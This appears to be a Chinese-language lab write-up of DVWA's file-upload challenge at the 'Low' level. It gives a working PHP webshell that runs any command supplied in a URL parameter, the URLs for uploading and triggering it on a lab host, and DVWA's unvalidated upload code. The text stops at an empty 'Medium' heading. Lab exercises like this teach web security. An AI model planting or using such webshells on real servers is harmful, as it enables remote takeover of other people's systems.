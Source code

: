 ### Low

webshell程式碼::shell1.php
```
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="submit" />
</form>
Output:<br />
<pre>
<?php 
if (isset($_GET['cmd']))    
(    
system($_GET['cmd'])
) 
?>
</pre>
```

攻擊技術
```
先上傳正常圖片==>看看放在哪一個目錄
http://192.168.1.250/DVWA/vulnerabilities/upload/


再上傳一隻webshell(副檔名是php)
http://192.168.1.250/DVWA/vulnerabilities/upload/../../hackable/uploads/shell1.php

在瀏覽器直接執行遠端程式
http://192.168.1.250/DVWA/hackable/uploads/shell1.php

http://192.168.1.250/DVWA/hackable/uploads/shell1.php?cmd=ifconfig

```

關鍵程式碼解析
```
<?php 

if( isset( $_POST[ 'Upload' ] ) ) { 
    // Where are we going to be writing to? 
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; 
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); 

    // Can we move the file to the upload folder? 
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { 
        // No 
        echo '<pre>Your image was not uploaded.</pre>'; 
    } 
    else { 
        // Yes! 
        echo "<pre>{$target_path} succesfully uploaded!</pre>"; 
    } 
} 

?> 
```
### Medium
